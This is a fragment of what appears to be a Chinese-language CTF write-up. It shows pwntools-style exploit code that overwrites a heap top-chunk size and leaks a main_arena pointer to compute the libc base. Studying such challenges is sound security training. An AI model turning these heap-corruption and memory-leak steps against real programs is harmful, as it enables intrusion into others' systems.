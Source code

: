 ![image](assets/image-20230731143658-mtnb1c0.png)

- 完整过程

```python

size = 0x1000-0x290-0x10
add(0,size)

pay = b'A' * (size)
pay += p64(0) + p64(0x1001)
edit(0,len(pay),pay)

add(1,0x2000)


add(2,0x100)
show(2)
ru('cont : ')
main_arena = uu64(r(6))
libc_base = main_arena -2204400
ls(hex(main_arena))
ls(hex(libc_base))
gdb.attach(io)

```
